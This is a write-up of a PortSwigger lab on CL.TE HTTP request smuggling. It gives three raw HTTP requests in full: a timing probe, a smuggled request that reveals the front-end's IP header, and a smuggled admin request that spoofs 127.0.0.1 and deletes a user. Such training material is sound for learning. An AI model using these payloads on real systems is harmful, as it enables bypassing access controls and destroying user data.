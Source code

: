 # Exploiting HTTP request smuggling to reveal front-end request rewriting
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at `/admin`, but it's only accessible to people with the IP address `127.0.0.1`. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`.

# Solution
## Analysis
### Confirming that /admin path exists
|![](Images/image-41.png)|
|:--:| 
| *Path /admin exists and is restricted* |

### Search funcionality vis POST request

|![](Images/image-37.png)|
|:--:| 
| *Post request to search posts* |

###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-38.png)|
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

### Revealing front-end request rewriting
[Technique for revealing front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting#revealing-front-end-request-rewriting)

Above technique allowed to retrieve header that was added by front-end: `X-HzWfIu-Ip: <clien ip address>`

```
POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

search=
```


|![](Images/image-39.png)|
|:--:| 
| *Request was smuggled - revealing front-end request rewriting* |
|![](Images/image-40.png)|
| *Request was smuggled - revealing front-end request rewriting* |


## Exploitation
```
POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 217
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
X-HzWfIu-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

search=
```

|![](Images/image-42.png)|
|:--:| 
| *Request was smuggled but it was blocked* |
|![](Images/image-43.png)|
| *Request was smuggled successfuly* |
|![](Images/image-44.png)|
| *Deletion of user Carlos* |


